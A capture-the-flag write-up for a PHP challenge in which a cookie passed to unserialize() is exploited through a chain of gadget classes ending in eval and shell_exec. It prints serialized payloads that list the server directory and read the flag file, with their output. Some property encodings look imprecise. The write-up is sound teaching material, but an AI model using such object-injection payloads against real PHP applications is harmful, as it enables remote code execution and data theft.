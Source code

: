 # Un Secure

### Text: Do you know what "unserialize" means? In PHP, unserialize is something that can be very dangerous, you know? It can cause Remote Code Execution. And if it's combined with an autoloader like in Composer, it can use gadgets in the autoloaded folder to achieve Remote Code Execution.

&nbsp;

Score: 100

&nbsp;

Included Files: [dist.zip](dist.zip)

---
 ## Writeup

In this challenge you are given a php server which you have to exploit to read out the contents of the flag. You are provided with a Dockerfile.

Dockerfile
```dockerfile
# copy all host file in cwd to container cwd
COPY . .

# move flag to root directory with random name
RUN mv flag.txt $(cat /dev/urandom | head -c 32 | hex).txt

```

When the server starts the flag is copied into the base directory under a random name. Since the server is only started once, this means that the name of the file will never change over the course of the challenge. The first step is to find the name of this file.
This can be done by exploiting some of the classes that come with challenge.

index.php
```php
require("vendor/autoload.php");

if (isset($_COOKIE['cookie'])) {
    $cookie = base64_decode($_COOKIE['cookie']);

    $t = unserialize($cookie);

}
```

In index.php a cookie provided by the user is directly input into the unserialize() function. This is a dangerous method which can be exploited if the user has uncontrolled access to the input. By inputting custom information, the user can create/modify any class or data. Luckly for us, the challenge provided three custom classes in which we can exploit.

class Vuln
```php
class Vuln
    {
        public $waf1;
        protected $waf2;
        private $waf3;
        public $cmd;
        function __toString()
        {
            if (!($this->waf1 === 1)) {
                die("not x");
            }
            if (!($this->waf2 === "\xde\xad\xbe\xef")) {
                die("not y");
            }
            if (!($this->waf3) === false) {
                die("not z");
            }

            eval($this->cmd);

        }
    }
```

Class Adders
```php
class Adders
    {
        private $x;
        function __construct($x)
        {
            $this->x = $x;

            var_dump($x);
        }
        function get_x()
        {
            return $this->x;
        }
    }
```

Class Echoers
```php
class Echoers
    {
        protected $klass;
        function __destruct()
        {
            echo $this->klass->get_x();
        }
    }
```

It can be seen in class Vuln that a command will be executed in the shell. All we have to do is create a Vuln object with a command to list out the current directory and find the flag file. The question is how can we create an instance of this class. We can use the unserialize function in index.php to unserialize a Vuln object. By setting the cookie to our serialized object, we can inject an object into the server.


Serialized Vuln object.
```php
O:16:"GadgetThree\Vuln":4:{s:4:"waf1";i:1;s:4:"waf2";s:4:"Þ­¾ï";s:4:"waf3";b:0;s:3:"cmd";s:26:"var_dump(shell_exec('ls'))";}
```

Using the serialized Vuln object above, we can create a Vuln object. Great. Except of course we have to call the __toString() method. Unfortunately we cannot call this directly via the unserialize() method. Now we have to utilize the other classes. Fortunately both of these classes contain magic methods which will automatically be called. For instance, the __construct() method on the Adder class will be called whenever the instance of the class is created, and the __destruct() method on the Echoers class will be called whenever an instance of this class is destroyed. By inputting a serialized class of Echoers, the __destruct() method will be called, executing the code inside. Since, object serializiation supports objects inside of objects, we can serialize an Echoers object with an Adder class as the $klass parameter. This means when the Echoer is destroyed, the Adder object will call the get_x() method. Now in the Adder class we must input a serialized Vuln() class as the $x parameter so that its __toString() method will be called. By correctly nesting the serialized classes we can finally get the Vuln() method to execute out command.

Full Nested Serialized Objects to list out directory contents
```php
O:17:"GadgetTwo\Echoers":1:{s:5:"klass";O:16:"GadgetOne\Adders":1:{s:1:"x";O:16:"GadgetThree\Vuln":4:{s:4:"waf1";i:1;s:4:"waf2";s:4:"Þ­¾ï";s:4:"waf3";b:0;s:3:"cmd";s:28:"var_dump(shell_exec('ls'));";}}}
```

By dumping the return of the shell command we will receive all of the files listed in the current directory including the name of the flag file. Now all we have to do is change the shell command to print out the contents of the flag.

Output of shell command to list out directory
```php
string(90) "182939124819238912571292389218129123.txt
composer.json
composer.lock
index.php
src
vendor
"
```

Full Nested Serialized Objects to print out flag file
```php
O:17:"GadgetTwo\Echoers":1:{s:5:"klass";O:16:"GadgetOne\Adders":1:{s:1:"x";O:16:"GadgetThree\Vuln":4:{s:4:"waf1";i:1;s:4:"waf2";s:4:"Þ­¾ï";s:4:"waf3";b:0;s:3:"cmd";s:69:"var_dump(shell_exec('cat 182939124819238912571292389218129123.txt'));";}}}
```

Output of shell command to read flag
```php
string(44) "TCP1P{unserialize in php go brrrrrrrr ouch}
```

## Flag: TCP1P{unserialize in php go brrrrrrrr ouch}